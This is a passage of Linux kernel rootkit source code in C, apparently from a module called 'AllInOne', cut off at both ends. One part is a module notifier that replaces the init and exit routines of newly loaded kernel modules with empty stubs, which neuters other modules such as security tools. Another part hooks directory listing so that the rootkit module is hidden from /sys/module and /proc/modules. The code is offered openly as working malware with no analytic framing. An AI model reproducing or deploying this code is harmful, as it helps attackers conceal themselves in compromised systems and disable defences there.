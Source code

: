 ```c
	unsigned long flags;
	// definite lock
	DEFINE_SPINLOCK(module_notifier_spinlock);
	module = data;

	// store interrupt, lock
	spin_lock_irqsave(&module_notifier_spinlock, flags);
	switch(module->state){
	case MODULE_STATE_COMING:
		module->init = fake_init;
		module->exit = fake_exit;
		break;
	default:
		break;
	}
	spin_unlock_irqrestore(&module_notifier_spinlock, flags);
	return NOTIFY_DONE;
}

int fake_init(void){
	return 0;
}

void fake_exit(void){
	return;
}

//---------------------- hide self module ->
#define SYS_MODULE_PATH	"/sys/module"
#define PROC_MODULE_PATH	"/proc/modules"
#define SECRET_MODULE		"AllInOne"

int (*real_iterate_1)(struct file *, struct dir_context *);
int (*real_filldir_1)(struct dir_context *, const char *, int, \
					loff_t, u64, unsigned);


int fake_filldir_1(struct dir_context *ctx, const char *name, int namlen, \
				loff_t offset, u64 ino, unsigned d_type);

int fake_iterate_1(struct file *filp, struct dir_context *ctx){
	real_filldir_1 = ctx->actor;
	*(filldir_t *)&ctx->actor = fake_filldir_1;

	return real_iterate_1(filp, ctx);
}
int fake_filldir_1(struct dir_context *ctx, const char *name, int namlen, \
				loff_t offset, u64 ino, unsigned d_type){
	if(strncmp(name, SECRET_MODULE, strlen(SECRET_MODULE)) == 0){
		return 0;
	}

	return real_filldir_1(ctx, name, namlen, offset, ino, d_type);
}

#define set_file_seq_op_1(opname, path, new, old)	\
	do{	\
		struct file *filp;	\
		struct seq_file *seq;	\
		struct seq_operations	*seq_op;	\
		filp = filp_open(path, O_RDONLY, 0);	\
		if(IS_ERR(filp)){	\
			old = NULL;	\
```